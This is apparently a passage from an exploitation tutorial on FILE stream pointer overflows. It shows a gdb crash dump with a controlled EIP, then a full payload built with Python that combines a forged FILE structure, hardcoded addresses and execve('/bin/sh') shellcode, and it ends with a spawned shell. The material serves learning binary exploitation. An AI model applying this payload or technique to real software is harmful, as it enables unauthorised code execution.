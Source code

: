 ```shell
ECX: 0xbfffeb9a ("AAAAAA\240\372\373\267AAAA\234\347\377\277\f\353\377\277")
EDX: 0xb7fc188c --> 0x1 
ESI: 0xbfffeb0c --> 0xfbad2086 
EDI: 0x16 
EBP: 0xb7e15940 (0xb7e15940)
ESP: 0xbfffe74c --> 0xb7e7a143 (<__GI__IO_fputs+163>: cmp    edi,eax)
EIP: 0x42424242 ('BBBB')
EFLAGS: 0x10202 (carry parity adjust zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x42424242
[------------------------------------stack-------------------------------------]
0000| 0xbfffe74c --> 0xb7e7a143 (<__GI__IO_fputs+163>:  cmp    edi,eax)
0004| 0xbfffe750 --> 0xbfffeb0c --> 0xfbad2086 
0008| 0xbfffe754 --> 0xbfffeb9a ("AAAAAA\240\372\373\267AAAA\234\347\377\277\f\353\377\277")
0012| 0xbfffe758 --> 0x16 
0016| 0xbfffe75c --> 0x0 
0020| 0xbfffe760 --> 0xbfffebb8 --> 0x0 
0024| 0xbfffe764 --> 0xb7ff2500 (<_dl_runtime_resolve+16>:  pop    edx)
0028| 0xbfffe768 --> 0xbfffeba3 --> 0x414141b7 
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x42424242 in ?? ()
```
Now we can control EIP, so next let's replace 'BBBB' to the shellcode's address.

```shell
gdb-peda$ r "`python -c 'print "aa"+"b"*28 + "\xbc\xe7\xff\xbf" + "\x6a\x0b\x58\x31\xf6\x56\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\xcd\x80"+"a"*824+"\x86\x20\xad\xfbAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xc0\x1a\xfc\xb7\x02AAAAAAA\xff\xff\xff\xffAA\x08A\x8c\x18\xfc\xb7\xff\xff\xff\xff\xff\xff\xff\xffAAAAA\x1a\xfc\xb7AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xa0\xfa\xfb\xb7AAAA\x9c\xe7\xff\xbf"+"\x0c\xeb\xff\xbf"'`"
Starting program: /home/wolfzhang/Desktop/file "`python -c 'print "aa"+"b"*28 + "\xbc\xe7\xff\xbf" + "\x6a\x0b\x58\x31\xf6\x56\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\xcd\x80"+"a"*824+"\x86\x20\xad\xfbAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xc0\x1a\xfc\xb7\x02AAAAAAA\xff\xff\xff\xffAA\x08A\x8c\x18\xfc\xb7\xff\xff\xff\xff\xff\xff\xff\xffAAAAA\x1a\xfc\xb7AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xa0\xfa\xfb\xb7AAAA\x9c\xe7\xff\xbf"+"\x0c\xeb\xff\xbf"'`"
len: 1042
process 4494 is executing new program: /bin/dash
$ id
[New process 4498]
process 4498 is executing new program: /usr/bin/id
uid=1000(wolfzhang) gid=1000(wolfzhang) groups=1000(wolfzhang),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lpadmin),124(sambashare)
```
Look, we got a shell! 

### Links
[Head First FILE Stream Pointer Overflow](http://www.evil0x.com/posts/13764.html)
[abusing the FILE structure](https://outflux.net/blog/archives/2011/12/22/abusing-the-file-structure/)
[File Stream Pointer Overflows Paper](http://www.ouah.org/fsp-overflows.txt)









